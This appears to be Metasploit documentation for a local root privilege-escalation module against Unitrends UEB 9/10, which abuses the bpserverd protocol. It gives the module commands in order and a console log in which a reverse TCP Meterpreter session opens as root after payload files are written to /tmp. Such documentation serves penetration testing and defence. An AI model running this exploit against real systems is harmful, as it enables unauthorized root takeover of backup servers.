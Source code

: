 ## Vulnerable Application

  Unitrends UEB 9/10 local privesc

  This exploit leverages bpserverd proprietary protocol to issue commands
  as root.

## Verification Steps

  1. Get a shell with exploit/linux/http/ueb10_api_systems
  2. ```use exploit/linux/local/ueb_priv_esc ```
  3. ```set session [SESSION]```
  4. ```exploit```
  5. A highpriv meterpreter session should have been opened successfully

## Scenarios

### UEB 10.0 on CentOS 6.5

```
msf > use exploit/linux/local/ueb_priv_esc
msf exploit(linux/local/ueb_priv_esc) > set session 4
session => 4
msf exploit(linux/local/ueb_priv_esc) > exploit

[*] Started reverse TCP handler on 15.0.0.177:4444
[*] Writing payload executable to '/tmp/pEFoythF'
[*] Writing privesc script to '/tmp/CTZSovJR'
[*] Fixing permissions
[*] Sending stage (857352 bytes) to 10.20.1.202
[*] Meterpreter session 5 opened (15.0.0.177:4444 -> 10.20.1.202:45188) at 2018-04-27 16:44:28 -0400
[+] Deleted /tmp/pEFoythF
[+] Deleted /tmp/CTZSovJR

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0

```
